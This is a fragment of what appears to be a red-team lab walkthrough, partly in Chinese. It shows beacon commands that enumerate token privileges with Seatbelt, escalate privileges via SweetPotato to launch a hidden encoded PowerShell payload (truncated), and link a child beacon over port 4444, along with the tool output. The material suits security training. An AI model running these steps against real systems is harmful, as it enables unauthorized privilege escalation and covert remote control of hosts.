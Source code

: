 beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

Current Token's Privileges

                SeAssignPrimaryTokenPrivilege:  DISABLED
                     SeIncreaseQuotaPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeManageVolumePrivilege:  SE_PRIVILEGE_ENABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED

[*] Completed collection in 0.01 seconds
```

这里使用[SweetPotato](https://github.com/CCob/SweetPotato)提权

```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Debug\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc SQBFAF[...snip...]ApAA=="

SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
[+] Attempting NP impersonation using method PrintSpoofer to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering notification on evil PIPE \\sql01/pipe/7365ffd9-7808-4a0d-ab47-45850a41d7ed
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

beacon> connect localhost 4444
[*] Tasked to connect to localhost:4444
[+] host called home, sent: 20 bytes
[+] established link to child beacon: 10.10.18.221	
```